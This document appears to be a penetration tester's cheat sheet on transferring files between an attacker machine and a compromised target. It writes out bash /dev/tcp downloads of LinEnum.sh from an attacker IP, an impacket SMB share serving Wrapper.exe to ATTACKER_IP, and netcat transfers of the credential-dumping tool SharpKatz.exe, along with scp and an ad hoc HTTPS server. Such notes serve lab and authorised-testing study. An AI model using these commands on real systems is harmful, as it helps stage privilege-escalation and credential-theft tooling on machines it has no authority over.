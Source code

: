- **With bash**
  -  --enable-net-redirections
```
# Connect to Attacker
exec 3<>/dev/tcp/10.10.10.32/80

# Get file
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3

# Response
cat <&3
```

- **SSH**
  - scp user@$TARGET:/path/to/file .
  - scp /path/to/file user@$TARGET:/copy/here
    - -r = recursive
- https: Create certificate + spawn https server
  - openssl req -new -x509 -keyout localhost.pem -out localhost.pem -days 365 -nodes
  - python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"

   
- option 3 - smbserver
  -  create server: sudo /opt/impacket/examples/smbserver.py share . -smb2support -username user -password s3cureP@ssword
  -  create client: net use \\ATTACKER_IP\share /USER:user s3cureP@ssword
  -  upload file: copy \\ATTACKER_IP\share\Wrapper.exe %TEMP%\wrapper-USERNAME.exe
  -  smbclient -U USER '//IP/folder'

### Native tools
- **NC**
  - Transfering files
      1. Start listener with nc with redirection
      2. Send file using ncat
```
# Sending to TARGET
## Target: receive the file
nc -l -p 8080 > File.exe
  ncat -l -recv-only = closes the connection once received

## Attacker: send the file as input
nc -q 0 $TARGET 8000 < file
  -q 0 = closes the connection once sent
  ncat -l --send-only

# Sending to TARGET
## Attacker
sudo nc -l -p 443 -q 0 < SharpKatz.exe

## Target
nc 192.168.49.128 443 > SharpKatz.exe
```
